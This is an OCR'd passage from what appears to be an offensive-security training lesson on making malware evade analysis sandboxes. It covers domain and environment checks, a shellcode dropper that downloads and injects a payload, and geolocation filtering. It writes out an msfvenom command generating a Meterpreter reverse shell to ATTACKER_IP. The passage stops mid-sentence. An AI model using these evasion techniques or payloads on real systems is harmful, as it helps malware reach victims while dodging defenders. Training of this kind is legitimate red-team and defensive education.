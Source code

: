 · Network Adapter Information

· Virtualization Checks

· Current Signed in User

· and much more!

**Querying Network Information**

The last method is the most **open-ended** method that we will be covering. Because of its open-endedness it is considered one of the more **advanced** methods as it involves querying information about the **Active Directory domain**.

Almost no Malware Sandboxes are **joined** in a domain, so it’s relatively safe to assume if the machine is not joined to a domain, it is not the right target! However, you cannot always be too sure, so you should collect some information about the domain to be safe. There are many objects that you can query; here are some to consider:

· Computers

· User accounts

· Last User Login(s)

· Groups

· Domain Admins

· Enterprise Admins

· Domain Controllers

· Service Accounts

· DNS Servers

These techniques can vary in difficulty; therefore, you should consider how much time and effort you want to spend building out these evasion methods. A simple method, such as **checking the systems environment variables** (this can be done with **echo %VARIABLE%** or to display all variables, use the **set** command) for an item like **the LogonServer**, Logon **UserSid**, or **Logon Domain** may be much easier than implementing a Windows API.

**Setting the Stage**

Now that you have a better understanding of what Sandbox Bypass method types exist, we will take it to the next step and implement some of the Sandbox Bypasses in the next task.

Before we move on to the next task, we’re going to be starting with a basic dropper that retrieves shellcode from a Web Server (specifically from **/index.raw**) and injects it into memory, and executes the shellcode. It’s important to note that all shellcode must be generated with **MSFVenom** in a **raw** format, and must be **64- bit**, not 32-bit. It can be generated with the following command.

**msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST ATTACKER\_IP LPORT 1337 -f raw -o index.raw**

**Geolocation Filtering**

Moving onto our next method of evading execution of our shellcode on a Sandbox, we will be leveraging Geolocation blocks. Fortunately, we will be able to leverage a good amount of code that is already written for us. Portions of the “**downloadAndExecute()”** function can be re-used for this. We will be reusing the following components:
